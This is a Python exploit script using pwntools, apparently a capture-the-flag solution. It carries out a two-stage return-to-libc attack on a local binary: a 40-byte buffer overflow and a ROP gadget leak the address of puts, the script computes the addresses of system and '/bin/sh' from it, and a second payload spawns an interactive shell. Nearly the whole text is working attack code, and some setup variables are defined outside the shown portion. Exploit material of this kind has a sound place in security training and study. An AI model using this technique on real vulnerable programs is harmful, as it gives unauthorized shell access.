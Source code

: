 ```python
# the gadget we need.
POP_RDI_GADGET = p64(0x4009a3)

libc = elf.libc

# our libc offsets.
LIBC_SYSTEM = libc.sym["system"]
LIBC_PUTS = libc.sym["puts"]
LIBC_BINSH = next(libc.search(b"/bin/sh"))

# construct our first payload.

payload1 = b'A' * 40

# pop the address of puts on the got into rdi
payload1 += POP_RDI_GADGET
payload1 += p64(PUTS_GOT)
# call puts
payload1 += p64(PUTS_PLT)
# call start
payload1 += p64(START)

conn = process()

conn.recvuntil(b'> ')

print(">>> sending payload 1")
conn.send(payload1)

# read in the output and parse it into an int
conn.recvuntil(b"Thank you!\n")
# bit of a hack but it works
puts_addr = u64(conn.recv(6) + b'\x00\x00')
print(">>> received libc_puts address %s" % hex(puts_addr))

# compute our final addresses from our leaked address and offsets
libc_leak = puts_addr - LIBC_PUTS
print(">>> libc leaked address is %s" % hex(libc_leak))
libc_system_leak = libc_leak + LIBC_SYSTEM
print(">>> calculated system address is %s" % hex(libc_system_leak))
libc_binsh_leak = libc_leak + LIBC_BINSH
print(">>> calculated /bin/sh address is %s" % hex(libc_binsh_leak))

# construct our second payload.

payload2 = b'A' * 40

# ret to pop rdi
payload2 += POP_RDI_GADGET
payload2 += p64(libc_binsh_leak)

# ret to system
payload2 += p64(libc_system_leak)

conn.recvuntil(b'> ')

print("[*] sending payload 2")
conn.send(payload2)

# enter interactive
conn.interactive()
```
